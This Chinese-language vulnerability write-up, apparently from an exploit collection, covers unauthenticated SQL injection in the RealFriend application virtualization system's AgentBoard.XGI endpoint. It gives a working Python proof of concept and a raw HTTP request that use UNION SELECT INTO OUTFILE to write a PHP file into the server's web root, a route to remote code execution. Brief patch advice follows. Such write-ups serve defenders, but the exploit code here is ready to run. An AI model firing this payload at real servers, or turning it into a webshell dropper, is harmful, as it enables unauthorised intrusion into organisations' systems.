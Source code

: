 # 瑞友天翼应用虚拟化系统 AgentBoard.XGI 远程代码执行漏洞

# 瑞友天翼应用虚拟化系统 AgentBoard.XGI 远程代码执行漏洞

## 漏洞描述

瑞友天翼应用虚拟化系统是基于服务器计算架构的应用虚拟化平台，它将用户各种应用软件集中部署到瑞友天翼服务集群，客户端通过 WEB 即可访问经服务器上授权的应用软件，实现集中应用、远程接入、协同办公等。未经身份认证的远程攻击者可以利用系统中存在的 SQL 注入漏洞，写入后门文件，从而执行远程代码。

## 漏洞影响

```
5.x <= 瑞友天翼应用虚拟化系统 <= 7.0.3.1
```

## 漏洞复现

poc

```
import requests
import sys

url = sys.argv[1]
payload="/AgentBoard.XGI?user=-1%27+union+select+1%2C%27%3C%3Fphp+phpinfo%28%29%3B%3F%3E%27+into+outfile+%22C%3A%5C%5CProgram%5C+Files%5C+%5C%28x86%5C%29%5C%5CRealFriend%5C%5CRap%5C+Server%5C%5CWebRoot%5C%5C1.php%22+--+-&cmd=UserLogin"
repose = requests.get(url=url+payload)
if repose.status_code ==200:
    a = url + '1.php'
    b = requests.get(url=a)
    if b.status_code == 200:
        print('[+] 漏洞存在，验证地址: {}1.php '.format(url))
```

payload

```
GET /AgentBoard.XGI?user=-1%27+union+select+1%2C%27%3C%3Fphp+phpinfo%28%29%3B%3F%3E%27+into+outfile+%22C%3A%5C%5CProgram%5C+Files%5C+%5C%28x86%5C%29%5C%5CRealFriend%5C%5CRap%5C+Server%5C%5CWebRoot%5C%5C2.php%22+--+-&cmd=UserLogin HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: CookieLanguageName=ZH-CN; CookieAuthType=0
Upgrade-Insecure-Requests: 1
```

## 漏洞修复

1. 避免将该系统开放至公网。
2. 官方已发布漏洞补丁及修复版本，请评估业务是否受影响后，建议您在升级前做好数据备份工作，避免出现意外，酌情升级至安全版本：http://soft.realor.cn:88/Gwt7.0.4.1.exe

